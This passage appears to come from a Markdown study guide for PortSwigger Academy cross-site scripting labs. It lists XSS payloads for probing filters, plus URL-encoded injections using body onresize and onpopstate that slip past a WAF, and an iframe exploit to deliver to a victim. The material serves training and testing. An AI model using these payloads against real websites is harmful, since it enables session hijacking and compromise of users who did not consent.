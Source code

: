 ```js
document.cookie = "TopSecret=UnsecureCookieValue4Peanut2019";
```

### Identify allowed Tags

> Basic XSS Payloads to _**identify**_ application security filter controls for handling data received in HTTP request.

```html
<img src=1 onerror=alert(1)>
```

```html
"><svg><animatetransform onbegin=alert(1)>
```

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

> Submitting the above payloads may give response message, _**"Tag is not allowed"**_ due to Web Application Firewall (WAF) blocking injections. Then _**identify**_ allowed tags using [PortSwigger Academy Methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).

> URL and Base64 online encoders and decoders

- [URL Decode and Encode](https://www.urldecoder.org/)
- [BASE64 Decode and Encode](https://www.base64encode.org/)

> This lab gives great **Methodology** to _**identify**_ allowed HTML tags and events for crafting POC XSS.

> Host **iframe** code on exploit server and deliver exploit link to victim.

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

> In below sample the tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.

```js
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

> This example show the **Body** and event **onpopstate** is not blocked.

```js
?search=%22%3E%3Cbody%20onpopstate=print()>
```

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)

> Below JavaScript is hosted on exploit server and then deliver to victim. The `code` is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.
